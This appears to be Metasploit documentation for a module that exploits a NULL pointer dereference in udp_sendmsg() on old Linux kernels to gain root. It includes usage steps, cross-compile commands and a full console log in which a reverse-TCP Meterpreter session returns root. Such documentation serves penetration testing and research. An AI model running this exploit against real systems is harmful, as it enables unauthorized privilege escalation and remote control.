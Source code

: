 ## Vulnerable Application

This module exploits a NULL pointer dereference in the `udp_sendmsg()`
function in Linux kernels 2.6.0 <= 2.6.18.8 to gain root privileges.

The `udp_sendmsg()` routing table pointer `struct rtable *rt` is
initialized as NULL. Sending a message to a UDP socket with the
`MSG_MORE` flag instructs the kernel that more data is pending,
which leads to calling `ip_append_data()` with the NULL rt,
resulting in execution of arbitrary code mapped at page zero.

Failed exploitation may crash the kernel.

Mapping page zero is forbidden on systems with an effective
`vm.mmap_min_addr` or configured with the UDEREF feature of
PaX/GrSecurity, preventing exploitation.

This module has been tested successfully on:

* CentOS 4.4 Server (x86_64) kernel 2.6.9-42.EL
* Debian 4.0r0 (i386) kernel 2.6.18-4-686
* Debian 4.0r7 (x86_64) kernel 2.6.18-6-amd64

## Verification Steps

1. Start `msfconsole`
1. Get a session
1. `use exploit/linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc`
1. `set SESSION <SESSION>`
1. `check`
1. `run`
1. You should get a new *root* session

## Options

### WritableDir

A writable directory file system path. (default: `/tmp`)

### COMPILE

Options: `Auto` `True` `False` (default: `Auto`)

Whether the exploit should be live compiled with `gcc` on the target system,
or uploaded as a pre-compiled binary.

`Auto` will first determine if `gcc` is installed to compile live on the system,
and fall back to uploading pre-compiled binaries.

## Compiled Executables

The module makes use of two pre-compiled exploit executables:

* `udp_sendpage.x86`
* `udp_sendpage.x86_64`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```sh
./i486-linux-musl-gcc -o udp_sendpage.x86 -s -pie -static udp_sendpage.c 
./x86_64-linux-musl-gcc -o udp_sendpage.x86_64 -s -pie -static udp_sendpage.c 
```

## Scenarios

### CentOS 4.4 Server (x86_64) kernel 2.6.9-42.EL

```
msf6 > use exploit/linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc) > check
[*] The target appears to be vulnerable.
msf6 exploit(linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/local/udp_sendmsg_msg_more_ip_append_data_null_pointer_deref_priv_esc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Kernel version 2.6.9 appears to be vulnerable
[+] System architecture x86_64 is supported
[+] vm.mmap_min_addr allows mapping NULL page
[+] grsecurity is not in use
[+] The target appears to be vulnerable.
[*] Dropping pre-compiled exploit on system...
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (980808 bytes) to 172.16.191.208
[*]  [+] MAPPED ZERO PAGE!
[*] sh: no job control in this shell
[*] sh-3.00# [1] 6437
[*] exit
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.208:32780) at 2021-02-21 17:47:54 -0500

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 4.4 (Linux 2.6.9-42.EL)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```

